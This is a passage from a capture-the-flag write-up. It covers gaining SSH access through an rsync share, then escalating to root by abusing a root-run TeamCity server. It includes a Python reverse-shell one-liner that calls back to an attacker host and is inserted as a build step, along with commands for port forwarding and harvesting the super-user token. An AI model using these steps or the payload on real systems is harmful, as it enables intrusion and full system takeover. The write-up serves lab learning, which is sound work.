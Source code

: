 - Then, I've used rsync to upload it to `/files/sys-internal/.ssh`.

```
rsync -av authorized_keys rsync://rsync-connect@10.10.169.137/files/sys-internal/.ssh
```

- After this, all I had to do was to SSH to the box: `ssh -i internal_key sys-internal@10.10.169.137`

#### PRIVILEGE ESCALATION

- I didn't find anything manually, so I had to use one of those ... automated tools :|

- Anyway, I've transferred `linpeas.sh` using rsync and from the output I noticed that there was `/TeamCity` directory available. 

- Then, I googled and it uses port 8111. So I've used `ss --listening | grep 8111` and it was listening, so I've used SSH to port forward the website.

```
ssh -L 8111:127.0.0.1:8111 -i internal_key sys-internal@10.10.169.137
```

- Then, I headed to `http://127.0.0.1:8111` and clicked on `Log in as Super user`.

- This asked for an authentication code. 

```
cd /TeamCity

grep -r "token" */*
```

```
logs/catalina.out:[TeamCity] Super user authentication token: {REDACTED} (use empty username with the token as the password to access the server)
```

- Alright. I think I spend at least 1 hour poking around TeamCity, since I've never used it before. 

- Here's the thing: Teamcity is in root directory and it's owned (and ran) by root. Anything ran by TeamCity is ran as root.

- So here are the steps to get a reverse shell as root.

1. Create a new project.
2. Create a new... task ( i think ) under the project.
3. On the left column, go to Build Step. 
4. Add a new Build Step (python).
5. For the command, select "Custom script"
6. Here, I took the following reverse shell from revshells.com

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",3131));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- and I deleted the bash-related code, so I left only

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",3131));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

7. Save.
8. Go to Projects (top menu)
9. Click run.
10. Got a reverse shell.

- Last flag is in `/root/root.txt`.